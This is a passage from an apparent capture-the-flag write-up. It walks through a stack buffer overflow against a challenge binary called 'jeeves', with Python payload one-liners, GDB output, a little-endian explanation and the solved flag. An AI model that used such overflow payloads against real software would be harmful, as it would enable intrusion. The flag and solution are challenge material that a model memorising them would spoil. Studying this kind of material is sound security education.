 ```bash
$ python3 -c 'import sys;sys.stdout.buffer.write(b"A" * 60 + b"\x13\x37\xba\xb3")' > payload
$ cat payload | ./jeeves                  
Hello, good sir!
May I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA7, hope you have a good day!
```

That's odd—why didn't it work? Let's debug the issue.

We'll follow the same process as before and set a breakpoint at the `cmp` instruction in GDB:

```bash
gef➤  b *0x0000555555555236
gef➤  r < payload
gef➤  x/xw $rbp-0x4
0x7fffffffdc6c: 0xb3ba3713
```

What the heck! Why does our input look like that? Remember from [Recon](#recon) when we discussed little-endian formatting? 

When the machine reads in the payload, it assumes we are aware of its endianness. The machine processes the data as if it is in the correct format. Therefore, the first byte of the payload is treated as the least significant byte and is placed at the lowest memory address:

```
      |--------------------------|--------------|
      |     Address              |     Data     |
      |--------------------------|--------------|
      |     0x7fffffffdc6c       |     0x13     |
      |--------------------------|--------------|
      |     0x7fffffffdc6d       |     0x37     |
      |--------------------------|--------------|
      |     0x7fffffffdc6e       |     0xba     |
      |--------------------------|--------------|
      |     0x7fffffffdc6f       |     0xb3     |
      |--------------------------|--------------|
```

When the machine reads this data back, it reassembles it from right to left, starting with the lowest memory address. This results in the payload `0xb3ba3713`.

To compensate for this, we need to align with how the computer reads bytes. Typically, this means reversing the order of your payload:

```bash
$ python3 -c 'import sys;sys.stdout.buffer.write(b"A" * 60 + b"\xb3\xba\x37\x13")' > payload
$ cat payload | ./jeeves 
Hello, good sir!
May I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA7, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: flag{k00l_beanz}
```

## References
